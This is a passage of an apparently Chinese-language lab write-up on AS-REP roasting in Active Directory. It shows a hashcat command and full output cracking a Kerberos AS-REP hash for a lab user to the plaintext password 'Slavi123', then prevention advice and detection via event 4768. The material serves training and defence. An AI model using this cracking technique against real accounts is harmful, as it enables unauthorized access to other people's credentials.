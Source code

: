 ```shell
xianzhi@htb[/htb]$ sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force

hashcat (v6.2.5) starting

<SNIP>

Dictionary cache hit:
* Filename..: passwords.txt
* Passwords.: 10002
* Bytes.....: 76525
* Keyspace..: 10002
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$anni@eagle.local:1b912b858c4551c0013d...3d2550
Time.Started.....: Thu Dec 8 06:08:47 2022, (0 secs)
Time.Estimated...: Thu Dec 8 06:08:47 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   130.2 kH/s (0.65ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10002/10002 (100.00%)
Rejected.........: 0/10002 (0.00%)
Restore.Point....: 9216/10002 (92.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 20041985 -> brady
Hardware.Mon.#1..: Util: 26%

Started: Thu Dec 8 06:08:11 2022
Stopped: Thu Dec 8 06:08:49 2022
```

一旦 `hashcat` 破解了密码，我们可以打印输出文件的内容来获取明文密码 `Slavi123`

## 攻击预防

首先也是最重要的，我们应该只在需要时使用这个属性；一个好的做法是每季度审查一次账户，以确保我们没有分配该属性。由于此属性经常出现在一些常规用户帐户中，因此它们的密码往往比具有 SPN 的服务帐户（来自 Kerberoast 的服务帐户）更容易破解。因此，对于需要此配置的用户，我们应该分配一个单独的密码策略，该策略需要至少 20 个字符来阻止破解尝试。

## 攻击探测
当我们执行 Rubeus 时，生成了 ID 为 `4768` 的事件，表示生成了 `Kerberos Authentication ticket` ：
![[Pasted image 20240718220126.png]]

